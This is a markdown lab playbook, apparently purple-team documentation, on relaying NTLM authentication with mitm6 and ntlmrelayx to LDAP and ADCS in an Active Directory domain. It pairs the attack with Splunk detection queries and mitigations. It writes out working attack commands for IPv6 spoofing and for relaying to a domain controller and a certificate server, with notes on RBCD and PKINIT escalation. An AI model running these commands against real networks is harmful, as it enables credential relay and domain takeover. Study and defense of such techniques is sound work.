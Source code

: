 # 03) NTLM Relay (mitm6) → LDAP/ADCS
**ATT&CK:** T1557 (Adversary-in-the-Middle), T1550.002 (Use of NTLM)  
**Scope:** Authorized lab/assessment only.

## Objective
Abuse name-resolution and NTLM to relay authentication and gain LDAP write or enroll certificates via ADCS web endpoints.

## Environment (assumed)
- **Domain:** `DRAGONBALL.local`
- **DC:** `DC01` — **10.8.10.225**
- **CA (ADCS):** `CA01` — **10.8.10.200**
- **Operator box:** `KALI` — **10.8.10.50**
- **Layer 2 proximity** to victim clients (same VLAN / broadcast domain).

## Preconditions / Common Misconfigs
- Clients use **WPAD** or accept rogue **DHCPv6**/IPv6 autoconfig.  
- **SMB signing** not enforced everywhere.  
- ADCS HTTP endpoints exposed (e.g., `http://CA01/certsrv/`), weak templates.

## Procedure (High-Level)
1. Coerce clients to talk IPv6/WPAD (same L2).  
2. Capture/relay NTLM to **LDAP** on `DC01` or **ADCS** on `CA01`.  
3. If relayed to LDAP and account has permissions, write something valuable (e.g., RBCD attribute).  
4. If relayed to ADCS, enroll a certificate and use it for Kerberos (PKINIT).

> **Legal/Ethical:** Commands below are documentation examples for **authorized labs only**.

## Doc-Only Command Examples (authorized lab)
```bash
# 1) Force IPv6 name resolution with mitm6
mitm6 -d DRAGONBALL.local

# 2a) Relay to LDAP on the DC and loot
ntlmrelayx.py -6 -t ldap://10.8.10.225 -wh attacker-wpad -l loot/

# 2b) Or relay to ADCS HTTP endpoint (ESC1-style paths)
ntlmrelayx.py -6 -t http://10.8.10.200/certsrv/certfnsh.asp --adcs
```
### Notes

- **RBCD via relay:** write `msDS-AllowedToActOnBehalfOfOtherIdentity` on a target computer account, then use **S4U** to impersonate.
- **ADCS via relay:** a vulnerable template (Client Authentication EKU + `ENROLLEE_SUPPLIES_SUBJECT`, etc.) enables certificate issuance; then use **PKINIT** to obtain a **TGT**.

### Telemetry to Collect

- **Network:** WPAD/DHCPv6 anomalies; clients authenticating to unexpected hosts.
- **Directory:** **5136** attribute writes (especially `msDS-AllowedToActOnBehalfOfOtherIdentity`).
- **ADCS:** enrollment logs; spikes in requests; suspicious SANs.
- **Auth:** **4768/4769** bursts after successful certificate enrollment.
---
### SIEM Analytics (Splunk examples)
```sql
# RBCD write attempts
index=wineventlog EventCode=5136
| search AttributeLDAPDisplayName="msDS-AllowedToActOnBehalfOfOtherIdentity"
| stats values(SubjectUserName) values(ObjectDN) count by Computer, _time

# Unusual ADCS enrollments (if forwarded)
index=adcs sourcetype=enrollment_logs
| stats count by Template, Requester, SAN
| where count > 3

# WPAD/mitm6 hints via DNS/Proxy logs (example placeholder)
index=proxy OR index=dns wpad OR "wpad.dat"
| stats count by src_ip, host
| where count > 10
```
## Mitigations

- **Disable WPAD** domain-wide; set explicit proxy or none via **GPO**.
- **Restrict/disable IPv6** where not used; block **rogue DHCPv6**.
- **Enforce SMB signing**; require **EPA** (Extended Protection) on **IIS/WinRM**.
- **ADCS hardening:** remove vulnerable templates (`ENROLLEE_SUPPLIES_SUBJECT`), keep **minimal EKUs**, restrict enrollment, require approvals, and **monitor enrollments**.
- **Network hygiene:** segment and monitor critical services; enforce **egress controls** from clients.
